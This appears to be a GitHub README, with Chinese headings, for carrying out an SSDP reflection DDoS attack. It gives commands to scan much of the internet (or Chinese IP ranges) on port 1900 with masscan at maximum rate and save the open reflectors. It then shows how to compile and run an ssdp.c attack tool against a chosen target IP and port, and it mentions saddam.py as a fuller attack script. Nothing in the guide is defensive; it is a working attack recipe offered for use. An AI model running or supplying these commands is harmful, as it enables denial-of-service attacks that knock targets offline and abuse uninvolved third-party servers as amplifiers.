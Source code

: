 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make && make install

### 扫描 Server
	# 安装会话
	yum install screen
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen ./masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**<br>
> screen ./masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本
